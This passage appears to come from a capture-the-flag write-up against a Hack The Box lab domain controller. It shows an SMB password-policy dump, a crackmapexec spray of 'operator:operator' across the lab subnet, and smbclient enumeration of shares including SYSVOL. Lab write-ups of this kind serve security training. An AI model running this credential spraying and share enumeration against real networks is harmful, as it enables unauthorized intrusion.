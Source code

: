 ```
SMB         10.10.11.236    445    DC01                 Domain Password Store Cleartext: 0
SMB         10.10.11.236    445    DC01                 Domain Password Lockout Admins: 0
SMB         10.10.11.236    445    DC01                 Domain Password No Clear Change: 0
SMB         10.10.11.236    445    DC01                 Domain Password No Anon Change: 0
SMB         10.10.11.236    445    DC01                 Domain Password Complex: 0
SMB         10.10.11.236    445    DC01             
SMB         10.10.11.236    445    DC01             Minimum password age: 1 day 4 minutes 
SMB         10.10.11.236    445    DC01             Reset Account Lockout Counter: 30 minutes 
SMB         10.10.11.236    445    DC01             Locked Account Duration: 30 minutes 
SMB         10.10.11.236    445    DC01             Account Lockout Threshold: None
SMB         10.10.11.236    445    DC01             Forced Log off Time: Not Set
```
- **Authenticate on Every Box**
```
└─$ crackmapexec smb 10.10.11.0/24 -u operator -p 'operator'           
SMB         10.10.11.250    445    DC-ANALYSIS      [*] Windows 10.0 Build 17763 x64 (name:DC-ANALYSIS) (domain:analysis.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.231    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.241    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:hospital.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.250    445    DC-ANALYSIS      [-] analysis.htb\operator:operator STATUS_LOGON_FAILURE 
SMB         10.10.11.231    445    DC01             [+] rebound.htb\operator:operator 
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator 
SMB         10.10.11.241    445    DC               [-] hospital.htb\operator:operator STATUS_LOGON_FAILURE 
```
- **smbclient**
```
┌──(bloman㉿hacker101)-[~/CTFs/Boot2root/VMs]
└─$ smbclient -N -L //10.10.11.236 -U operator%operator

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 

└─$ smbclient \\\\10.10.11.236\\SYSVOL
Password for [WORKGROUP\bloman]:
                                                                                                                                      
┌──(bloman㉿hacker101)-[~/CTFs/Boot2root/VMs]
└─$ smbclient \\\\10.10.11.236\\SYSVOL -U operator%operator
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Jul 27 10:19:07 2023
  ..                                  D        0  Thu Jul 27 10:19:07 2023
  manager.htb                        Dr        0  Thu Jul 27 10:19:07 2023

                5446399 blocks of size 4096. 711128 blocks available
smb: \> 
```
